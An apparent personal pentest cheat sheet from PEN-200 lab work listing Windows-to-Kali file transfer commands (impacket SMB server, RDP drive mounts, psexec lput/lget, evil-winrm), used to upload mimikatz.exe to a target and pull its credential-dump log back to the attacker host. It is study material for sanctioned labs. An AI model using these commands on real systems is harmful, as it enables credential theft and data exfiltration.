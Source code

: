 ```yaml
---
layout: post
title: Windows to Linux File Transfers
---
```


Transferring files from windows to linux can be annoying. Anyway you do it requires remembering some command line optinos for whatever tool you're using, which is why this post is being made as a reference for myself.

Here are the methods:

## SMB: 
Start server on linux:
```
$ impacket-smbserver test . -smb2support  -username kourosh -password kourosh
```

then in powershell:
```
$ net use m: \\Kali_IP\test /user:kourosh kourosh
$ copy mimikatz.log m:\
```

## RDP mounting shared folder
### xfreerdp
linux:
```bash
$ xfreerdp /cert-ignore /compression /auto-reconnect /u:
offsec /p:lab /v:192.168.212.250 /w:1600 /h:800 /drive:test,/home/kali/Documents/pen-
200
```

windows:
```
copy mimikatz.log \\tsclient\test\mimikatz.log
```

### rdesktop

on linux: 
```bash
rdesktop -z -P -x m -u offsec -p lab 192.168.212.250 -r disk:test=/home/kali/Documents/pen-200
```

on windows:
```
copy mimikatz.log \\tsclient\test\mimikatz.log
```

## Impacket tools
> `psexec` and `wmiexec` are shipped with built in feature for file transfer.

> **Note**: By default whether you upload (lput) or download (lget) a file, it'll be writte in `C:\Windows` path.

Uploading mimikatz.exe to the target machine:

```
C:\Windows\system32> lput mimikatz.exe
[*] Uploading mimikatz.exe to ADMIN$\/
C:\Windows\system32> cd C:\windows
C:\Windows> dir /b mimikatz.exe
mimikatz.exe
```

Downloading mimikatz.log:

```bash
C:\Windows> lget mimikatz.log
[*] Downloading ADMIN$\mimikatz.log
```

## Evil-winrm

Uploading files:
```bash
upload mimikatz.exe C:\windows\tasks\mimikatz.exe
```

Downloading files:
```bash
download mimikatz.log /home/kali/Documents/pen-200
```
